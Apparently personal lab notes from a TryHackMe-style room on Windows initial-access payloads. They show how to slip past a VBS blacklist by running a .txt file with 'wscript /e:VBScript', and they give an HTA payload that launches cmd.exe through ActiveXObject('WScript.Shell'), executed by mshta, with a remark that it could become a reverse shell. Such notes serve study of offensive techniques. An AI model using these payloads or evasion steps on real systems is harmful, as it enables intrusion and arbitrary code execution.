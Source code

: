<u>How I did this one</u>:

![](/assets/img/Pasted image 20221226173131.png)

### Case : What if VBS files are blacklisted?
- Rename the file with the `.txt` suffix and then run it with `wscript` as usual.
```shell-session
c:\Windows\System32> wscript /e:VBScript c:\Users\thm\Desktop\payload.txt
```

	- Okay, so `/e:VBScript` emphasizes that the given file is a VBScript despite it extension.

<u>Output</u>:

![](/assets/img/Pasted image 20221226172053.png)

--------------
# An HTML Application (HTA)

- Allows you to create a `downloadable` file.

<u>What kind of downloadable file is this</u>:
- It takes all the info regarding how it is `displayed` or `rendered`.

#### HTAs
- Dynamic HTML pages containing `Jscript` and `VBScript`.

<u>What do we use to execute HTAs?</u>:
- We use `LOLBINS` (**Living-off-the-land** Binaries) tool called `mshta`.
- You can also use `Internet Explorer` (or any kind of browser I guess?)


<u>Step 1</u>: Using `ActiveXObject` in the payload to execute **cmd.exe**.
```html
//payload.hta
<html>
<body>
<script>
	var c = 'cmd.exe'
	new ActiveXObject('WScript.Shell').Run(c); // in place of 'c' variable, you can modify it as a reverse shell I guess
</script>
</body>
</html>
```

	- What is "ActiveXObject" in the first place? It seems like it creates an Object first named "WScript.Shell" which then has a member function "Run" that allows user to run any argument passed onto it.

<u>Step 2</u>: Serve the `payload.hta` from a web server, this could be done from the attacking machine as follows:

![](/assets/img/Pasted image 20221226175202.png)
